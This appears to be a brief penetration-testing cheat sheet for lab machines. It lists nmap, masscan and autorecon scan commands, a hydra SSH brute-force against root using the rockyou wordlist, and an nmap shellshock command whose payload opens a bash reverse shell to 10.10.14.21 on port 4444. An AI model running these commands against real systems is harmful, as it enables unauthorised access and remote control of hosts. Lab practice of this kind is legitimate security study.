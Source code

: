 ###
```
sudo nmap -sV -sC -oA ip 
sudo nmap --script vuln -oA vuln-scan 10.10.10.79
sudo nmapAutomater
sudo autorecon
https://www.stationx.net/nmap-cheat-sheet/


```
```
sudo nmap -p80 -sV --script http-shellshock --script-args "uri=/cgi-bin/user.sh,cmd=bin/bash /bin/bash -i >& /dev/tcp/10.10.14.21/4444 0>&1" 10.129.1.175
```
```
sudo masscan -p1-65535,U:1-65535 10.10.10.161 --rate=1000 -e tun0
```
### hydra
```
sudo  hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.105 -t 4 ssh
 ```

https://www.stationx.net/nmap-cheat-sheet/
### Vuln
```
sudo nmap --script vuln -oA vuln-scan 10.10.10.79

```
